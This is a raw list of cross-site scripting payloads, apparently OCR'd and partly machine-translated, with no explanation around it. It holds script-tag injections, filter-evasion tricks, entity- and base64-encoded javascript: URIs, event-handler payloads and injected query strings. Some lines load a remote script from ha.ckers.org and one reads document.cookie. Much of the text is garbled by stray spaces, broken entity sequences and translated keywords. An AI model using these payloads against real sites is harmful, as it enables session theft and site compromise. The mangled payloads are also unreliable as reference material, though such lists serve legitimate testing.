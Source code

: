<SCRIPT> String.fromCharCode (97, 108, 101, 114, 116, 40, 49, 41) </SCRIPT>
'; alert (String.fromCharCode (88,83,83)) //'; alert (String.fromCharCode (88,83,83)) // ”; alert (String.fromCharCode (88,83,83)) / / ”; Alert (String.fromCharCode (88,83,83)) // -> </SCRIPT>”> '> <SCRIPT> alert (String.fromCharCode (88,83,83)) </SCRIPT>
<IMG “” ”> <SCRIPT> alerta (“ XSS ”) </SCRIPT>”>
<IMG SRC = javascript: alert (String.fromCharCode (88,83,83))>
<IMG SRC = ”jav ascript: alert ('XSS');”>
<IMG SRC = ”jav & # x09; ascript: alert ('XSS');”>
<<SCRIPT> alert (“XSS”); // <</SCRIPT>
% 253cscript% 253ealert (1)% 253c / script% 253e
“> <S”% 2b ”cript> alerta (document.cookie) </script>
foo <script> alert (1) </script>
<scr <script> ipt> alert (1) </ scr </script> ipt>
<IMG SRC = & # 106; & # 97; & # 118; & # 97; & # 115; & # 99; & # 114; & # 105; & # 112; & # 116; & # 58; & # 97; & # 108; & # 101; & # 114; & # 116; & # 40; & # 39; & # 88; & # 83; & # 83; & # 39; & # 41;>
<IMG SRC = & # 0000106 & # 0000097 & # 0000118 & # 0000097 & # 0000115 & # 0000099 & # 0000114 & # 0000105 & # 0000112 & # 0000116 & # 0000058 & # 0000097 & # 0000108 & # 0000101 & # 0000114 & # 0000116 & # 00000 # 00000 # 000 & 00038 0000041>
<IMG SRC = & # x6A & # x61 & # x76 & # x61 & # x73 & # x63 & # x72 & # x69 & # x70 & # x74 & # x3A & # x61 & # x6C & # x65 & # x72 & # x74 & # x28 & # x27 & # x58 & # x53 & # x53 & # x53 x29>
<FUNDO DO CORPO = ”javascript: alert ('XSS')”>
<BODY ONLOAD = alert ('XSS')>
<TIPO DE ENTRADA = ”IMAGEM” SRC = ”javascript: alert ('XSS');”>
<IMG SRC = ”javascript: alert ('XSS')”
<iframe src = http: //ha.ckers.org/scriptlet.html <
javascript: alert ("hellox worldss")
<img src = "javascript: alert ('XSS');">
<img src = javascript: alert (& quot; XSS & quot;)>
<"'; alert (String.fromCharCode (88,83,83)) // \'; alert (String.fromCharCode (88,83,83)) //"; alert (String.fromCharCode (88,83,83 )) // \ "; alert (String.fromCharCode (88,83,83)) // -> </SCRIPT>"> '> <SCRIPT> alert (String.fromCharCode (88,83,83)) < / SCRIPT>
<META HTTP-EQUIV = "atualizar" CONTENT = "0; url = data: text / html; base64, PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC = "javascript: alert ('XSS');"> </IFRAME>
<Embed src = "dados: image / svg + xml; base64, PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI + YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg ==" type = "image / svg + xml" AllowScriptAccess = "always"> </ embed>
<SCRIPT a = ">" SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<SCRIPT a = ">" '' SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<SCRIPT "a = '>'" SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<SCRIPT a = "> '>" SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<SCRIPT> document.write ("<SCRI"); </SCRIPT> PT SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<<SCRIPT> alert ("XSS"); // <</SCRIPT>
<"'; alert (String.fromCharCode (88,83,83)) // \'; alert (String.fromCharCode (88,83,83)) //"; alert (String.fromCharCode (88,83,83 )) // \ "; alert (String.fromCharCode (88,83,83)) // -> </SCRIPT>"> '> <SCRIPT> alert (String.fromCharCode (88,83,83)) < / SCRIPT>
'; alert (String.fromCharCode (88,83,83)) // \'; alert (String.fromCharCode (88,83,83)) // "; alert (String.fromCharCode (88,83,83)) //\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))<?/ SCRIPT> & submit.x = 27 & submit.y = 9 & cmd = search
<script> alert ("hellox worldss") </script> & safe = high & cx = 006665157904466893121: su_tzknyxug & cof = FORID: 9 # 510
<script> alert ("XSS"); </script> & search = 1
0 & q = '; alert (String.fromCharCode (88,83,83)) // \'; alert% 2? 8String.fromCharCode (88,83,83)) // "; alert (String.fromCharCode? (88, 83,83)) // \ "; alert (String.fromCharCode (88,83,83)%? 29 // -> </SCRIPT>"> '> <SCRIPT> alert (String.fromCharCode (88,83 %? 2C83)) </SCRIPT> & submit-frmGoogleWeb = Web + Pesquisa
<h1> <font color = blue> mundos hellox </h1>
<BODY ONLOAD = alert ('hellox worldss')>
<input onfocus = write (XSS) autofocus>
<input onblur = write (XSS) autofocus> <input autofocus>